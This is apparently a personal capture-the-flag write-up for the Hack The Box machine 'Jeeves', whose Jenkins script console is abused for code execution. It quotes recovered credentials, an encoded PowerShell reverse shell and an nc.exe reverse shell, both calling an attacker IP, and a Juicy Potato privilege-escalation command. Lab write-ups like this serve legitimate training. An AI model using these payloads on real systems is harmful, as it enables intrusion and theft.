








I ran gobuster a bunch of times but couldnt find the directory needed. I looked at 0xdf's walkthrough and he finds the directory using the same wordlist as me so im not entirely sure what was happening. I spent a bunch of time trying exploits for the version of jetty, mysql error and other things.
The directory we were looking for is http://10.10.10.63:50000/askjeeves/
Shell as kohsuke
Looking at this again a few weeks later(i dont even remember starting this box) we can create projects and scripts without logging in. We have RCE at http://10.10.10.63:50000/askjeeves/script
def cmd = "cmd.exe /c type config.xml".execute();println("${cmd.text}");

There is a file named credentials.xml and when we cat it out we get a password however I think this is my test account I made
<?xml version='1.0' encoding='UTF-8'?> <com.cloudbees.plugins.credentials.SystemCredentialsProvider plugin="credentials@2.1.16"> <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash"> <entry> <com.cloudbees.plugins.credentials.domains.Domain> <specifications/> </com.cloudbees.plugins.credentials.domains.Domain> <java.util.concurrent.CopyOnWriteArrayList> <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl> <scope>GLOBAL</scope> <id>c37a7598-80b1-4170-b11b-e25d9eccb52a</id> <description></description> <username>test</username> <password>{AQAAABAAAAAQ6Nwvq0s8buIuB3R+mLfcOm1pOgvvcLeiiSFaBX9Ji78=}</password> </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl> </java.util.concurrent.CopyOnWriteArrayList> </entry> </domainCredentialsMap> </com.cloudbees.plugins.credentials.SystemCredentialsProvider>
secret key file = 58d05496da2496d09036d36c99b56f1e89cc662f3e65a4023de71de7e1df8afb

Jenkins version <version>2.87</version>
We can chain commands together to be able to access the secrets directory and get the inital admin password

We can now login to Jenkins with
admin:ccd3bc435b3c4f80bea8acca28aec491
Using this payload on the script page we can get a reverse shell. For this we cat out a shell.ps1 file and turn it into base64
cat shell.ps1 | iconv -t utf-16le | base64 -w 0
Copy the payload and paste it into the script page
http://10.10.10.63:50000/askjeeves/script
Then the command executed is
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <base64 payload>
def process = "cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc ZABvACAAewAKACAAIAAgACAAIwAgAEQAZQBsAGEAeQAgAGIAZQBmAG8AcgBlACAAZQBzAHQAYQBiAGwAaQBzAGgAaQBuAGcAIABuAGUAdAB3AG8AcgBrACAAYwBvAG4AbgBlAGMAdABpAG8AbgAsACAAYQBuAGQAIABiAGUAdAB3AGUAZQBuACAAcgBlAHQAcgBpAGUAcwAKACAAIAAgACAAUwB0AGEAcgB0AC0AUwBsAGUAZQBwACAALQBTAGUAYwBvAG4AZABzACAAMQAKAAoAIAAgACAAIAAjACAAQwBvAG4AbgBlAGMAdAAgAHQAbwAgAEMAMgAKACAAIAAgACAAdAByAHkAewAKACAAIAAgACAAIAAgACAAIAAkAFQAQwBQAEMAbABpAGUAbgB0ACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQAwAC4AMQAwAC4AMQA0AC4AMgA0ACcALAAgADQANAAzACkACgAgACAAIAAgAH0AIABjAGEAdABjAGgAIAB7AH0ACgB9ACAAdQBuAHQAaQBsACAAKAAkAFQAQwBQAEMAbABpAGUAbgB0AC4AQwBvAG4AbgBlAGMAdABlAGQAKQAKAAoAJABOAGUAdAB3AG8AcgBrAFMAdAByAGUAYQBtACAAPQAgACQAVABDAFAAQwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkACgAkAFMAdAByAGUAYQBtAFcAcgBpAHQAZQByACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBTAHQAcgBlAGEAbQBXAHIAaQB0AGUAcgAoACQATgBlAHQAdwBvAHIAawBTAHQAcgBlAGEAbQApAAoACgAjACAAVwByAGkAdABlAHMAIABhACAAcwB0AHIAaQBuAGcAIAB0AG8AIABDADIACgBmAHUAbgBjAHQAaQBvAG4AIABXAHIAaQB0AGUAVABvAFMAdAByAGUAYQBtACAAKAAkAFMAdAByAGkAbgBnACkAIAB7AAoAIAAgACAAIAAjACAAQwByAGUAYQB0AGUAIABiAHUAZgBmAGUAcgAgAHQAbwAgAGIAZQAgAHUAcwBlAGQAIABmAG8AcgAgAG4AZQB4AHQAIABuAGUAdAB3AG8AcgBrACAAcwB0AHIAZQBhAG0AIAByAGUAYQBkAC4AIABTAGkAegBlACAAaQBzACAAZABlAHQAZQByAG0AaQBuAGUAZAAgAGIAeQAgAHQAaABlACAAVABDAFAAIABjAGwAaQBlAG4AdAAgAHIAZQBjAGkAZQB2AGUAIABiAHUAZgBmAGUAcgAgACgANgA1ADUAMwA2ACAAYgB5ACAAZABlAGYAYQB1AGwAdAApAAoAIAAgACAAIABbAGIAeQB0AGUAWwBdAF0AJABzAGMAcgBpAHAAdAA6AEIAdQBmAGYAZQByACAAPQAgADAALgAuACQAVABDAFAAQwBsAGkAZQBuAHQALgBSAGUAYwBlAGkAdgBlAEIAdQBmAGYAZQByAFMAaQB6AGUAIAB8ACAAJQAgAHsAMAB9AAoACgAgACAAIAAgACMAIABXAHIAaQB0AGUAIAB0AG8AIABDADIACgAgACAAIAAgACQAUwB0AHIAZQBhAG0AVwByAGkAdABlAHIALgBXAHIAaQB0AGUAKAAkAFMAdAByAGkAbgBnACAAKwAgACcAUwBIAEUATABMAD4AIAAnACkACgAgACAAIAAgACQAUwB0AHIAZQBhAG0AVwByAGkAdABlAHIALgBGAGwAdQBzAGgAKAApAAoAfQAKAAoAIwAgAEkAbgBpAHQAaQBhAGwAIABvAHUAdABwAHUAdAAgAHQAbwAgAEMAMgAuACAAVABoAGUAIABmAHUAbgBjAHQAaQBvAG4AIABhAGwAcwBvACAAYwByAGUAYQB0AGUAcwAgAHQAaABlACAAaQBuAGkAdABhAGwAIABlAG0AcAB0AHkAIABiAHkAdABlACAAYQByAHIAYQB5ACAAYgB1AGYAZgBlAHIAIAB1AHMAZQBkACAAYgBlAGwAbwB3AC4ACgBXAHIAaQB0AGUAVABvAFMAdAByAGUAYQBtACAAJwAnAAoACgAjACAATABvAG8AcAAgAHQAaABhAHQAIABiAHIAZQBhAGsAcwAgAGkAZgAgAE4AZQB0AHcAbwByAGsAUwB0AHIAZQBhAG0ALgBSAGUAYQBkACAAdABoAHIAbwB3AHMAIABhAG4AIABlAHgAYwBlAHAAdABpAG8AbgAgAC0AIAB3AGkAbABsACAAaABhAHAAcABlAG4AIABpAGYAIABjAG8AbgBuAGUAYwB0AGkAbwBuACAAaQBzACAAYwBsAG8AcwBlAGQALgAKAHcAaABpAGwAZQAoACgAJABCAHkAdABlAHMAUgBlAGEAZAAgAD0AIAAkAE4AZQB0AHcAbwByAGsAUwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABCAHUAZgBmAGUAcgAsACAAMAAsACAAJABCAHUAZgBmAGUAcgAuAEwAZQBuAGcAdABoACkAKQAgAC0AZwB0ACAAMAApACAAewAKACAAIAAgACAAIwAgAEUAbgBjAG8AZABlACAAYwBvAG0AbQBhAG4AZAAsACAAcgBlAG0AbwB2AGUAIABsAGEAcwB0ACAAYgB5AHQAZQAvAG4AZQB3AGwAaQBuAGUACgAgACAAIAAgACQAQwBvAG0AbQBhAG4AZAAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4ACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAQgB1AGYAZgBlAHIALAAgADAALAAgACQAQgB5AHQAZQBzAFIAZQBhAGQAIAAtACAAMQApAAoAIAAgACAAIAAKACAAIAAgACAAIwAgAEUAeABlAGMAdQB0AGUAIABjAG8AbQBtAGEAbgBkACAAYQBuAGQAIABzAGEAdgBlACAAbwB1AHQAcAB1AHQAIAAoAGkAbgBjAGwAdQBkAGkAbgBnACAAZQByAHIAbwByAHMAIAB0AGgAcgBvAHcAbgApAAoAIAAgACAAIAAkAE8AdQB0AHAAdQB0ACAAPQAgAHQAcgB5ACAAewAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACQAQwBvAG0AbQBhAG4AZAAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAKACAAIAAgACAAIAAgACAAIAB9ACAAYwBhAHQAYwBoACAAewAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAXwAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnAAoAIAAgACAAIAAgACAAIAAgAH0ACgAKACAAIAAgACAAIwAgAFcAcgBpAHQAZQAgAG8AdQB0AHAAdQB0ACAAdABvACAAQwAyAAoAIAAgACAAIABXAHIAaQB0AGUAVABvAFMAdAByAGUAYQBtACAAKAAkAE8AdQB0AHAAdQB0ACkACgB9AAoAIwAgAEMAbABvAHMAZQBzACAAdABoAGUAIABTAHQAcgBlAGEAbQBXAHIAaQB0AGUAcgAgAGEAbgBkACAAdABoAGUAIAB1AG4AZABlAHIAbAB5AGkAbgBnACAAVABDAFAAQwBsAGkAZQBuAHQACgAkAFMAdAByAGUAYQBtAFcAcgBpAHQAZQByAC4AQwBsAG8AcwBlACgAKQAKAA== ".execute()println "Found text ${process.text}"

No other user accounts so next step is admin
Priv Esc To Administrator
SeImpersonatePrivilege is available
shell.bat file
c:\Windows\Temp\nc.exe -e cmd 10.10.14.24 9998
Using Juicy Potato
JPNG.exe -t * -p c:\Users\Kohsuke\Desktop\shell.bat -l 443

Root flag is missing though

This was a weird CTF thing using a datastream to hide it, will never happen real world.
dir /R shows the data stream

typing this will give us the flag
more < hm.txt:root.txt

Annoying ending with the hidden flag but it was a fun box.